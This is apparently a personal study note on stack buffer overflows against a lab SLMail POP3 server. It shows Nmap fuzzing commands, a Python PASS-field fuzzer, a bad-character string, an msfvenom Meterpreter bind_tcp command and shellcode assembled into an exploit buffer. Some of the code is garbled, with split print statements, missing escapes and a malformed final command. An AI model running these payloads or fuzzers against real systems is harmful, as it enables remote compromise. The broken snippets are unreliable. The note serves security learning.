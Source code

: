 ```yaml
---
id: 2023-01-11-buffer-overflows
title: buffer overflows
metaTitle: Buffer Overflows | Anas's Digital Garden
metaDescription: buffer overflows | Anas's Digital Garden
createdDate: 2023-01-11
updatedDate: 2023-01-18
weekNumber: 202302
category: security/buffer-overflows
tags: ["buffer-overflows", "buffer-overflows"]
---
```


# Buffer Overflows

Those are the main ways of identifying flaws in applications

- If the source code of the application is available, then source code review is probably the easiest way to identify  
  bugs.
- If the application is closed source, you can use reverse engineering techniques, or fuzzing, to find bugs.

## A Look inside Stack while a Simple App is Running

![None](./images/inside_stack.png)

## Fuzzing

- Fuzzing involves sending malformed data into application input and watching for unexpected crashes.
- An unexpected crash indicates that the application might not filter certain input correctly. This could lead to  
  discovering an exploitable vulnerability.
- Nmap Fuzzers:
  - NMap Fuzzer List  
    [https://nmap.org/nsedoc/categories/fuzzer.html](https://nmap.org/nsedoc/categories/fuzzer.html)

  - NMap HTTP Form Fuzzer

    ```
      nmap --script http-form-fuzzer --script-args
      'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}'
      -p 80 $ip
    ```

  - Nmap DNS Fuzzer

    ```
    nmap --script dns-fuzz --script-args timelimit=2h $ip -d
    ```

- MSFvenom  
  [_https://www.offensive-security.com/metasploit-unleashed/msfvenom/_](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

### A Word about Dep and Aslr

- **DEP** (Data Execution Prevention) is a set of hardware, and software, technologies that perform additional checks on  
  memory, to help prevent malicious code from running on a system.
- The primary benefit of **DEP** is to help prevent code execution from data pages, by raising an exception, when  
  execution occurs.
- **ASLR** (Address Space Layout Randomization) randomizes the base addresses of loaded applications, and DLLs, every  
  time the Operating System is booted.

#### Interacting with the POP3 Protocol

> if the protocol under examination was unknown to us, we would either need to look up the RFC of the protocol format, or learn it ourselves, using a tool like Wireshark.

- To reproduce the netcat connection usage performed earlier in the course using a Python script, our code would look  
  similar to the following

```python
#!/usr/bin/python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  print
  "\nSending vil buffer..."
  s.connect(('10.0.0.22', 110))  # connect to IP, POP3 port
  data = s.recv(1024)  # receive banner
  print
  data  # print banner

  s.send('USER   test' + '\r\n')  # end username "test"
  data = s.recv(1024)  # receive reply
  print
  data  # print reply

  s.send('PASS test\r\n')  # send password "test"
  data = s.recv(1024)  # receive reply
  print
  data  # print reply

  s.close()  # close socket
  print
  "\nDone!"

except:
  print
  "Could not connect to POP3!"
```

- Taking this simple script and modifying it to fuzz the password field during the login process is easy. The resulting  
  script would look like the following.

```python
#!/usr/bin/python
import socket

# Create an array of buffers, from 10 to 2000, with increments of 20.
buffer = ["A"]
counter = 100

while len(buffer) <= 30:
  buffer.append("A" * counter)
  counter = counter + 200

for string in buffer:
  print
  "Fuzzing PASS with %s bytes" % len(string)
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.recv(1024)
  s.send('USER test\r\n')
  s.recv(1024)
  s.send('PASS ' + string + '\r\n')
  s.send('QUIT\r\n')
  s.close()
```

- Run this script against your SLMail instance, while attached to **Immunity Debugger**.
- The results of running this script shows that the **Extended Instruction Pointer (EIP)** register has been overwritten  
  with our input buffer of A's (the hex equivalent of the letter A is \x41).
- This is of particular interest to us, as the EIP register also controls the execution flow of the application.
- This means that if we craft our exploit buffer carefully, we might be able to divert the execution of the program to a  
  place of our choosing, such as a into the memory where we can introduce some reverse shell code, as part of our  
  buffer.

![Execution Halted in OllyDbg](../../assets/images/posts/buffer_overflow/33.png)

## Check for Bad Characters

```bash
>> python -c \
'print "A"*80 + "B"*4 + \
"x01x02x03x04x05x06x07x08x09x0ax0bx0cx0dx0ex0fx10" + \
"x11x12x13x14x15x16x17x18x19x1ax1bx1cx1dx1ex1fx20" + \
"x21x22x23x24x25x26x27x28x29x2ax2bx2cx2dx2ex2fx30" + \
"x31x32x33x34x35x36x37x38x39x3ax3bx3cx3dx3ex3fx40" + \
"x41x42x43x44x45x46x47x48x49x4ax4bx4cx4dx4ex4fx50" + \
"x51x52x53x54x55x56x57x58x59x5ax5bx5cx5dx5ex5fx60" + \
"x61x62x63x64x65x66x67x68x69x6ax6bx6cx6dx6ex6fx70" + \
"x71x72x73x74x75x76x77x78x79x7ax7bx7cx7dx7ex7fx80" + \
"x81x82x83x84x85x86x87x88x89x8ax8bx8cx8dx8ex8fx90" + \
"x91x92x93x94x95x96x97x98x99x9ax9bx9cx9dx9ex9fxa0" + \
"xa1xa2xa3xa4xa5xa6xa7xa8xa9xaaxabxacxadxaexafxb0" + \
"xb1xb2xb3xb4xb5xb6xb7xb8xb9xbaxbbxbcxbdxbexbfxc0" + \
"xc1xc2xc3xc4xc5xc6xc7xc8xc9xcaxcbxccxcdxcexcfxd0" + \
"xd1xd2xd3xd4xd5xd6xd7xd8xd9xdaxdbxdcxddxdexdfxe0" + \
"xe1xe2xe3xe4xe5xe6xe7xe8xe9xeaxebxecxedxeexefxf0" + \
"xf1xf2xf3xf4xf5xf6xf7xf8xf9xfaxfbxfcxfdxfexff"'
```

## Generate Meterpreter Bind-tcp Payload

```bash
>> msfvenom -p linux/x86/meterpreter/bind_tcp -b="0x00" -f python
```

```bash
# using output from last command we can create our full payload
python -c \
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + \
"BBBB" + \
'print "A"*80 + "B"*4 + "x90" * (400 - 137) + \
"\xba\x8a\x2a\xb0\xa4\xd9\xed\xd9\x74\x24\xf4\x5d\x31" + \
"\xc9\xb1\x1c\x31\x55\x14\x03\x55\x14\x83\xed\xfc\x68" + \
"\xdf\xda\xd9\x34\xb9\xa9\x25\x7d\xb9\xdd\x29\x7d\x33" + \
"\x3e\x4f\xfc\xa0\xc1\x60\x33\xa6\xf3\x5b\x3c\x44\xa0" + \
"\x18\x91\xe1\x45\x16\xf4\x46\x2f\xe5\x76\xf7\xda\xf1" + \
"\x22\x92\x18\x90\xcb\x32\x8a\xed\x2a\xd8\xba\xb6\xc6" + \
"\x7b\x9b\x85\x96\x13\x98\xd2\x82\x42\xc4\x84\xf8\x1c" + \
"\xf8\x38\xed\x80\x96\x28\x5c\x69\xee\xa8\x34\xef\xa8" + \
"\xe7\x48\x3e\xab\x48\x2e\x0c\xac\xf9\xed\x3e\xcb\x70" + \
"\xa0\x3a\xd9\x03\xd1\xf5\xed\xb3\xd6\x34\x6d\x34\x07" + \
"\x9d\xde\x3d\x7a\xa2\xe0\xa3"'
```

